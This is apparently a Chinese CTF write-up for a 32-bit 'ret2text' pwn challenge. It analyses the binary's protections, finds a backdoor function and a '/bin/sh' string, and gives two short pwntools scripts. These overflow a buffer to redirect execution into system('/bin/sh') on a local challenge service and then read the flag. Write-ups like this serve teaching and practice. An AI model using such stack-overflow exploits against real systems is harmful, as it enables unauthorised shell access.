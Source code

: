 # ret2text 32

## 文件分析

下载`pwn`, NX on, PIE off, Canary off, RELRO partial  
~~这不是写明了32位~~

## 逆向

观察vuln函数里面输入一个数，并其后从输入中获取对应字节数 ~~%d个？随便打~~  
观察.text段，存在`b4ckdoor`函数，但是执行echo hi？？

显然，在第一步的exp中，只是跳转到该函数是没用的  
~~进一步探索，发现程序中system读取ebx寄存器中的内容  
而程序中存在`pop ebx; ret;`和`/bin/sh`~~  
先后压栈`system()`和`/bin/sh`即可  
再次发起exp

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x0804928c)) # Addr of ba4kdoor
sh.interactive()
```

成功打印出`hi!`！但是没有flag

```python
from pwn import *
sh = remote("localhost", 42473)
sh.sendline(b'100')
sh.sendline(b'0'*92 + p32(0x080492a9) + p32(0x0804c02c)) # Addr of system & /bin/sh
sh.interactive()
```

> 做到这里的时候是0:09，网站打不开了，不会还有宵禁吧？明日再战
>
> 后记：真的有宵禁，12点后对外网关闭

再次运行，`cat flag`，得到flag

Done.
